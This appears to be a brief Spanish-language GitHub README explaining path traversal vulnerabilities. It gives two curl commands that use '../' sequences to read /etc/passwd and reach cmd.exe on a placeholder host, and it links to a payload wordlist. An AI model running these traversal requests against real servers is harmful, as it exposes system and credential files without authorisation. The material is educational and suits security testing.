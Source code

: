 ## directoriotrasversal

Path Traversal (o Directory Traversal) es una vulnerabilidad web que permite a un atacante acceder a archivos y directorios fuera del directorio raíz del servidor web.

se manipula parámetros de la URL o inputs que contienen rutas de archivos (como ../../) para moverse por las carpertas del servidor.

Si el servidor no valida correctamente las entradas, puede exponer archivos sensibles como:

Configuraciones (/etc/passwd en Linux).
#
## ejemplos simples para explotar la vulnerabilidade de directorio trasversal o path traversal:

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

<img style="float:left" alt="Path traversal simple" src="https://github.com/hackingyseguridad/directoriotraversal/blob/master/pathtraversal.png">

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe

## diccionario path traversal 

https://github.com/hackingyseguridad/diccionarios/blob/master/pathtraversal.txt

sh actualizar.sh 


## http://www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
